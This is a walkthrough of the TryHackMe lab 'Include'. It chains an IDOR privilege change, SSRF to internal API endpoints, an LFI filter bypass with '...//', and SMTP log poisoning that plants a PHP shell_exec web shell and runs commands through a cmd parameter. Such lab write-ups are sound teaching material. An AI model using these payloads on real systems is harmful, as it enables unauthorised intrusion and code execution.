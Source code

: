 # Include

A writeup for the room [Include](https://tryhackme.com/room/include) on TryHackMe.

> Use your server exploitation skills to take control of a web app.

<Image src={require("./logo.png").default} height="256" />

### What is the flag value after logging in to the SysMon app?

The first step is to scan the target with nmap:

```sh
nmap -sS TARGET_IP
```

<Image src={require("./1-1-nmap.png").default} />

The services on port 4000 and 50000 could be interesting:

```sh
nmap -A -p 4000,50000 TARGET_IP
```

<Image src={require("./1-2-nmap-4000.png").default} />

<Image src={require("./1-3-nmap-50000.png").default} />

They are both web servers. The one on port 4000 is a login page.

<Image src={require("./1-4-4000-index.png").default} />

The service on port 50000 is an admin panel.

<Image src={require("./1-5-50000-index.png").default} />

We can try to login to the website on port 4000 with guest:guest as credentials.

Once inside we can see a user profile page.

There are many properties and a form to add a new one.

By looking to the URL we can easily see that there is an IDOR vulnerability.

<Image src={require("./1-6-idor.png").default} />

There are two other users (2 and 3) but there is nothing to do with them.

Because there is a property called isAdmin set to false, we can try to change it.

<Image src={require("./1-7-admin.png").default} />

Once done new pages are available: API and Settings.

<Image src={require("./1-8-api.png").default} />

<Image src={require("./1-9-settings.png").default} />

The API page contains the details about two endpoints available for the user.

The endpoints are not directly accessible by us.

Inside the Settings page, we can see an input field to change the profile banner.

If we try to change the link we will see that the server will download the image and set as url its base64 encoding.

By giving one of the endpoints as a link, the server will download the content and show it to us.

This vulnerability is called Server-Side Request Forgery (SSRF).

<Image src={require("./1-10-endpoint-1.png").default} />

<Image src={require("./1-11-endpoint-2.png").default} />

We finally have access to the admin panel and obtain the first flag.

<Image src={require("./1-12-flag.png").default} />

### What is the content of the hidden text file in /var/www/html?

We can try to search for subpaths with gobuster:

```sh
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://TARGET_IP:50000
```

<Image src={require("./2-1-gobuster.png").default} />

Looking to the source code of the admin panel we can see that the profile image is loaded as `profile.php?img=profile.png`.

The image is inside the uploads folder.

<Image src={require("./2-2-uploads.png").default} />

We can try to change the link to `profile.php?img=../uploads/profile.png`.

However, the path in this way will not work.

If we play a bit with the link we can see that the server is removing in some way the first part.

By adding ...// multiple times we can bypass the filter and access the file.

This is an example of Local File Inclusion (LFI) vulnerability.

<Image src={require("./2-3-passwd.png").default} />

Looking to one of the available PHP file it is possible to notice that they are parsed by the server.

This means that if we can insert PHP code into a file, it can be executed, causing an RCE (Remote Code Execution).

A possible way is through log poisoning using for example the /var/mail/log file.

To insert something into this log file it is enough to send an email through the SMTP server.

```sh
telnet TARGET_IP 25
helo test
mail from: <?php echo shell_exec($_GET['cmd']); ?>
```

<Image src={require("./2-4-telnet.png").default} />

Now, by sending `&cmd=ls` as a parameter inside the final log file it will be possible to see the output of the command.

To find the hidden file we can use the following command:

```sh
&cmd=ls%20-a%20/var/www/html
```

<Image src={require("./2-5-files.png").default} />

Finally, we can read the content of the hidden file obtaining the second flag.

```sh
&cmd=cat%20/var/www/html/REDACTED
```

<Image src={require("./2-6-flag.png").default} />
